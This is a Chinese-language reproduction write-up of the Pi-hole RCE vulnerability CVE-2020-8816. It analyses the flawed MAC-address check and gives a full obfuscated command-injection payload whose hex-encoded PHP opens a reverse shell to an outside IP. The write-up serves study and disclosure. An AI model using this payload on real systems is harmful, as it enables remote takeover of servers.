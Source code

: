 （CVE 2020-8816）Pi-hole 远程代码执行漏洞
=========================================

一、漏洞简介
------------

二、漏洞影响
------------

Pi-hole \<= 4.3.2

三、复现过程
------------

### 漏洞分析

> ./scripts/pi-hole/php/savesettings.php

    {
      // Accepted input format: 00:01:02:1A:5F:FF (characters may be lower case)
      return (preg_match('/([a-fA-F0-9]{2}[:]?){6}/', $mac_addr) == 1);    
    }

    $mac = $_POST["AddMAC"];

    if(!validMAC($mac)) {...}

    $mac = strtoupper($mac);

    if(isset($_POST["addstatic"])) {
        ...
        exec("sudo pihole -a addstaticdhcp ".$mac." ".$ip." ".$hostname);
        ...
    }

    if(isset($_POST["removestatic"])) {
        ...
        exec("sudo pihole -a removestaticdhcp ".$mac);
        ...
    }

注意到，在validMAC函数中，只使用preg\_match对MAC地址的格式进行了检查，而preg\_match函数的作用是根据正则表达式的模式对字符串进行搜索匹配，并返回匹配字数。因此，只要用户的输入中存在MAC地址，就可以通过检查。

通过检查的用户输入做了一次大写转换，然后直接放入了exec函数中。

**最终的payload**

    aaaaaaaaaaaa&&SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}&&B=${PWD#/???/???/}&&H=${B%???/?????}&&C=${PWD#/??}&&R=${C%/???/????/?????}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&

#### payload分析

-   1、模拟MAC地址

```{=html}
<!-- -->
```
    aaaaaaaaaaaa
